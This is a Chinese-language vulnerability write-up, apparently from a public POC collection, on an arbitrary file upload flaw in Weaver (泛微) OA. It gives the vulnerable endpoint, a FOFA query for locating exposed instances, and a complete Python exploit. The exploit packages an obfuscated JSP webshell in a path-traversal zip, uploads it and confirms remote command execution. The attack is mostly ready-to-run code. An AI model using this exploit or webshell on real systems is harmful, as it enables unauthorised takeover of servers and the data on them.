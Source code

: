 # 泛微OA weaver.common.Ctrl 任意文件上传漏洞

## 漏洞描述

泛微OA weaver.common.Ctrl 存在任意文件上传漏洞，攻击者通过漏洞可以上传webshell文件控制服务器

## 漏洞影响

```
泛微OA
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

存在漏洞的路径为

```plain
/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp
```

请求包为

![image-20220209103936690](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091039784.png)

使用POC文件上传

![image-20220209103951582](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091039689.png)

## 漏洞POC

```python
import zipfile
import random
import sys
import requests



def generate_random_str(randomlength=16):
  random_str = ''
  base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
  length = len(base_str) - 1
  for i in range(randomlength):
    random_str += base_str[random.randint(0, length)]
  return random_str

mm = generate_random_str(8)

webshell_name1 = mm+'.jsp'
webshell_name2 = '../../../'+webshell_name1

def file_zip():
    shell = """<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%
    if(request.getParameter("cmd")!=null){
        BASE64Decoder decoder = new BASE64Decoder();
        Class rt = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlJ1bnRpbWU=")));
        Process e = (Process)
                rt.getMethod(new String(decoder.decodeBuffer("ZXhlYw==")), String.class).invoke(rt.getMethod(new
                        String(decoder.decodeBuffer("Z2V0UnVudGltZQ=="))).invoke(null, new
                        Object[]{}), request.getParameter("cmd") );
        java.io.InputStream in = e.getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("
<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
    """   ## 替换shell内容
    zf = zipfile.ZipFile(mm+'.zip', mode='w', compression=zipfile.ZIP_DEFLATED)
    zf.writestr(webshell_name2, shell)

def GetShell(urllist):
    file_zip()
    print('上传文件中')
    urls = urllist + '/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp'
    file = [('file1', (mm+'.zip', open(mm + '.zip', 'rb'), 'application/zip'))]
    requests.post(url=urls,files=file,timeout=60, verify=False)
    GetShellurl = urllist+'/cloudstore/'+webshell_name1
    GetShelllist = requests.get(url = GetShellurl)
    if GetShelllist.status_code == 200:
        print('利用成功webshell地址为:'+GetShellurl)
    else:
        print('未找到webshell利用失败')

def main():
    if (len(sys.argv) == 2):
        url = sys.argv[1]
        GetShell(url)
    else:
        print("python3 poc.py http://xx.xx.xx.xx")

if __name__ == '__main__':
    main()
```

## 参考文章

[原漏洞公开地址](https://github.com/GTX8090TI/GTX8090TI.github.io/blob/6dd04a19bbc4fcef436e0b2f05c15bc98ac0c852/2021/05/02/泛微OA-前台GetShell复现/index.html)